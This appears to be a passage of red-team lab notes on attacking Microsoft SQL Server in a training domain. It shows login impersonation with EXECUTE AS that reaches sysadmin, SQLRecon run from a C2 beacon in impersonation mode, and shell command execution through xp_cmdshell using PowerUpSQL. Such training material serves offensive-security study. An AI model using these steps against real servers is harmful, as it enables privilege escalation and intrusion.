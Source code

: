 **Use `EXECUTE AS` to execute a query in the context of the target:**

```
EXECUTE AS login = 'DEV\mssql_svc'; SELECT SYSTEM_USER;
DEV\mssql_svc

EXECUTE AS login = 'DEV\mssql_svc'; SELECT IS_SRVROLEMEMBER('sysadmin');
1
```

**SQLRecon modules can also be run in "impersonation mode" by prefixing the module name with an `i` and specifying the principal to impersonate:**

```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:iwhoami /i:DEV\mssql_svc

[*] Determining user permissions on sql-2.dev.cyberbotic.io,1433 as 'DEV\mssql_svc'
[*] Logged in as DEV\mssql_svc
[*] Mapped to the user dbo
[*] [+] Roles:
 |-> User is a member of public role.
 |-> User is NOT a member of db_owner role.
 |-> User is NOT a member of db_accessadmin role.
 |-> User is NOT a member of db_securityadmin role.
 |-> User is NOT a member of db_ddladmin role.
 |-> User is NOT a member of db_backupoperator role.
 |-> User is NOT a member of db_datareader role.
 |-> User is NOT a member of db_datawriter role.
 |-> User is NOT a member of db_denydatareader role.
 |-> User is NOT a member of db_denydatawriter role.
 |-> User is a member of sysadmin role.
 |-> User is a member of setupadmin role.
 |-> User is a member of serveradmin role.
 |-> User is a member of securityadmin role.
 |-> User is a member of processadmin role.
 |-> User is a member of diskadmin role.
 |-> User is a member of dbcreator role.
 |-> User is a member of bulkadmin role.
```

## MS SQL Command Execution

The _xp\_cmdshell_ procedure can be used to execute shell commands on the SQL server if you have sysadmin privileges. &#x20;

**`Invoke-SQLOSCmd` from PowerUpSQL provides a simple means of using it:**

```
beacon> powershell Invoke-SQLOSCmd -Instance "sql-2.dev.cyberbotic.io,1433" -Command "whoami" -RawResults

dev\mssql_svc
```
